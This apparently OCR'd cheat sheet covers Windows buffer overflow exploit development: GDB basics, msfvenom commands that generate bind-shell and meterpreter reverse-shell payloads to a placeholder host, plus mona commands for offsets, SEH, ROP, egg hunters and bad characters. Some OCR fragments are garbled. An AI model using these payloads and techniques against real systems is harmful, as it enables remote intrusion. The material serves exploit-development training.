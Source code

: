 # BOF
## GDB Debugger Commands
### Setting Breakpoint break
```
        *_start
        ```
### Execute Next Instruction
```
        next
        - step
        - n
        - s
        - # Continue Execution continue
        - c
```
### Data
```
        - checking 'REGISTERS' and 'MEMORY'
        - # Display Register Values: (Decimal,Binary,Hex)
        - print print print O/P : (gdb) $17 = (gdb) $18 = (gdb) $19 = (gdb)
        - /d –> Decimal /t –> Binary /x –> Hex
        - print /d $eax 13
        - print /t $eax 1101
        - print /x $eax 0xd
```

### Display values of:
```
        - command : x/nyz (Examine)
        - n –> Number of fields to display ==>
        - y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
        - z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
        ```

## Win Buffer Overflow Exploit Commands
```

        - msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
        - msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c
        - crontabs for all users including AD
        - COMMONLY USED BAD CHARACTERS: \x00\x0a\x0d\x20 \x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c
        - For http request Ending with (0\n\r_)
        ```

## Useful Commands:
```
        - pattern create
        - pattern offset (EIP Address)
        - pattern offset (ESP Address)
        - add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
        - !pvefindaddr pattern_create 5000 !pvefindaddr suggest !pvefindaddr modules !pvefindaddr nosafeseh
        - !mona config -set workingfolder C:\Mona\%p !mona config -get workingfolder
        - !mona mod
        - !mona bytearray -b "\x00\x0a"
        - !mona pc 5000 !mona po EIP !mona suggest
        ```

### SEH - Structured Exception Handling
https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
```
        -   !mona suggest
        - !mona nosafeseh
        - nseh="\xeb\x06\x90\x90" (next seh chain)
        - iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)
        ```

### ROP (DEP)
https://en.wikipedia.org/wiki/Return-oriented_programming # https://en.wikipedia.org/wiki/Data_Execution_Prevention
```

        - !mona modules
        - !mona ropfunc -m *.dll -cpb "\x00\x09\x0a"
        - !mona rop -m *.dll -cpb "\x00\x09\x0a" (auto suggest)
        ```

### ASLR - Address space layout randomization
https://en.wikipedia.org/wiki/Address_space_layout_randomization
```
        - !mona noaslr
        ```

### EGG Hunter techniques      
- https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/ # http://www.fuzzysecurity.com/tutorials/expDev/4.html  
```
        - !mona jmp -r esp
        - !mona egg -t lxxl
        - \xeb\xc4 (jump backward -60) buff=lxxllxxl+shell
        - !mona egg -t 'w00t'
        ```

### NASM Commands
```
        - nasm -f bin -o payload.bin payload.asm
        - nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload       
 ```
